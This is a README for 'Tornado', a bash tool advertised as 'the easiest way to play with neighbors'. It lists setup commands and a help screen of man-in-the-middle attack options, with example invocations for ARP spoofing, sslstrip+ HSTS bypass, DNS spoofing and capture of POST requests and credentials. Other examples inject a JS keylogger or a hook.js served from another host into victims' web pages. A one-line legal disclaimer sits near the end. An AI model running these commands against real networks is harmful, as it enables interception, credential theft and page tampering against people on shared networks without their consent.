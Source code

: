 # TORNADO
## The easiest way to play with neighbors
### setup
```
git clone https://github.com/rebellionil/tornado
cd tornado 
bash setup.sh
```
### ```~# ./tornado.sh -h ``` output 
```

                       ████████╗ ██████╗ ██████╗ ███╗   ██╗ █████╗ ██████╗  ██████╗  
                       ╚══██╔══╝██╔═══██╗██╔══██╗████╗  ██║██╔══██╗██╔══██╗██╔═══██╗
                          ██║   ██║   ██║██████╔╝██╔██╗ ██║███████║██║  ██║██║   ██║
                          ██║   ██║   ██║██╔══██╗██║╚██╗██║██╔══██║██║  ██║██║   ██║
                          ██║   ╚██████╔╝██║  ██║██║ ╚████║██║  ██║██████╔╝╚██████╔╝
                          ╚═╝    ╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═══╝╚═╝  ╚═╝╚═════╝||╚═════╝ 
                           - Version 0.2 [CODED BY MAGDY MOUSTAFA]       ||||       
                           - github.com/rebellionil/tornado           |__||||__|    
                           - facebook.com/rebellionil                 ++++++++++    
                                                                      ||||||||||    

 ┌════════════════════════════════════════════════════════════════════════════════════════════════════════════════┐ 
 █ -h --help                   => guess what ?                                                                    █ 
 ║ -I --iface-info             => print connected interfaces information and exit                                 ║ 
 █ -t --target    <TARGET>     => specify target                                                                  █ 
 ║ -g --gateway   <Gateway>    => specify gateway                                                                 ║ 
 ║ -i --interface <iface>      => specify an interface                                                            ║ 
 ║ -o --savelog   <NAME>       => save sslstrip+ results                                                          ║ 
 ║ -f --forward   <on/off>     => don't forward traffic                                         [on|OFF]          ║ 
 ║ -c --no-colors              => remove colors from output                                     [on|OFF]          ║ 
 ║ -d --driftnet               => enable driftnet to extract images from session pcap file      [on|OFF]          ║ 
 ║ -u --urlsnarf               => log GET/POST requests with urlsnarf                           [on|OFF]          ║ 
 ║ -s --silent                 => run arpspoof and dns2proxy in background                      [on|OFF]          ║ 
 ║ -k --tshark                 => capture detailed post requests info with tshark               [on|OFF]          ║ 
 ║ -e --ettercap               => capture post requests with ettercap (RECOMMENDED)             [on|OFF]          ║ 
 ║ -m --tcpdump                => capture post requests with TCPdump                            [on|OFF]          ║ 
 ║ -K --tskark+                => capture GET/POST requests headers with tshark                 [on|OFF]          ║ 
 ║ -p --dnsspoof               => DNS spoofing with dns2proxy (DOMAIN => FAKE_IP)               [on|OFF]          ║ 
 ║ -r --iptraf                 => monitor network traffic with iptraf-ng                        [on|OFF]          ║ 
 ║ -a --etherape               => monitor network traffic with etherape                         [on|OFF]          ║ 
 ║ -C --no-check               => don't verify if targets are reachable or not                  [on|OFF]          ║ 
 ║ -x --burp                   => intercept captured traffic with burpsuite                                       ║ 
 ║ -X --mitmproxy              => intercept captured traffic with MITMproxy                                       ║ 
 ║ -H --hsts                   => intercept captured traffic with sslstrip+,dns2proxy                             ║ 
 ║ -w --mitmproxy-args         => customize mitmproxy performance                                                 ║ 
 ║ -l --js-url    <js URL>     => inject JS url in page content                                 [ HTTP ]          ║ 
 ║ -L --js-code   <js code>    => inject JS code from JS file [must be one line]                [ HTTP ]          ║ 
 ║ -G --js-keylogger           => inject JS keylogger in html pages                             [ HTTP ]          ║ 
 ║ -M --map-lan   <nmap args>  => perform a nmap network scan from tornado !                                      ║ 
 ║ usage. ./tornado.sh <options>                                                                                  ║ 
 ║ eg. ./tornado.sh -t 192.168.1.1/24 --map-lan -F                                                                ║ 
 ║ eg. ./tornado.sh -t 192.168.1.1/24 --map-lan --script vuln -p 80                                               ║ 
 ║ eg. ./tornado.sh -i wlan0 -t 192.168.1.50 -g 192.168.1.1 -a --mitmproxy --mitmproxy-args --no-mouse            ║ 
 ║ eg. ./tornado.sh -i wlan0 -t 192.168.1.1/24 -g 192.168.1.1 --ettercap --hsts -o ssl.log                        ║ 
 ║ eg. ./tornado.sh -i wlan0 -t 192.168.1.10 -g 192.168.1.1 -f                                                    ║ 
 ║ eg. ./tornado.sh -i wlan0 -t 192.168.1.10 -g 192.168.1.1 -l http://192.168.1.100:3000/hook.js                  ║ 
 ║ eg. ./tornado.sh -i wlan0 -t 192.168.1.10 -g 192.168.1.1 -L alert.js --js-keylogger                            ║ 
 █ eg. ./tornado.sh -i wlan0 -t 192.168.1.2,192.168.1.5,192.168.1.10 -g 192.168.1.1 --hsts -e -k -d -u            █ 
 ║ eg. ./tornado.sh -i wlan0 -t 192.168.1.5 -g 192.168.1.1 --burp                                                 ║ 
 █ eg. ./tornado.sh -i wlan0 -t 192.168.1.5 -g 192.168.1.1 --dnsspoof dnsfile.txt                                 █ 
 └════════════════════════════════════════════════════════════════════════════════════════════════════════════════┘ 
┌─[root@parrot]─[~/tornado]
└──╼ #


```
```
Version release: 0.2-STABLE
Author: Magdy Moustafa  [ rebellionil ]
Distros Supported: Linux Ubuntu, Kali, Debian, BackBox, Parrot OS
```
## screenshots
![alt text](https://github.com/rebellionil/tornado/blob/master/screenshots/Screenshot_20170811_001317.png)
![alt text](https://github.com/rebellionil/tornado/blob/master/screenshots/Screenshot%20at%202017-08-08%2016-13-16.png)
![alt text](https://github.com/rebellionil/tornado/blob/master/screenshots/Screenshot%20at%202017-08-10%2014-40-19.png)
![alt text](https://github.com/rebellionil/tornado/blob/master/screenshots/Screenshot_20170811_023106.png)
![alt text](https://github.com/rebellionil/tornado/blob/master/screenshots/burpsuite.png)
![alt text](https://github.com/rebellionil/tornado/blob/master/screenshots/ss.png)
![alt text](https://github.com/rebellionil/tornado/blob/master/screenshots/Screenshot%20at%202017-08-10%2021-24-24.png)
![alt text](https://github.com/rebellionil/tornado/blob/master/screenshots/Screenshot_2017-08-08-16-10-32.png)
![alt text](https://github.com/rebellionil/tornado/blob/master/screenshots/Screenshot_2017-08-08-16-13-10-1.png)
![alt text](https://github.com/rebellionil/tornado/blob/master/screenshots/Screenshot_2017-08-10-22-53-11.png)
![alt text](https://github.com/rebellionil/tornado/blob/master/screenshots/Screenshot%20at%202017-08-11%2019-34-55.png)
![alt text](https://github.com/rebellionil/tornado/blob/master/screenshots/scr.png)

## LEGAL DISCLAMER
```
The author does not hold any responsibility for the bad use of this tool,
remember that attacking targets without prior consent it's illegal and punished by law.
```
## Tornado limitations
```
1º - Tornado will fail if target system its protected againt arp poison atacks
2º - target system sometimes needs to clear the net cache for arp poison to be effective
3º - many attacks described in tornado may be dropped by the target HSTS detection sys.
```
## Dependencies
```
nmap, iptraf-ng, sslstrip2, dns2proxy, mitmproxy, burpsuite, tshark, tcpdump, ettercap, etherape, urlsnarf, arpspoof, driftnet, arp-scan
```

### EOF




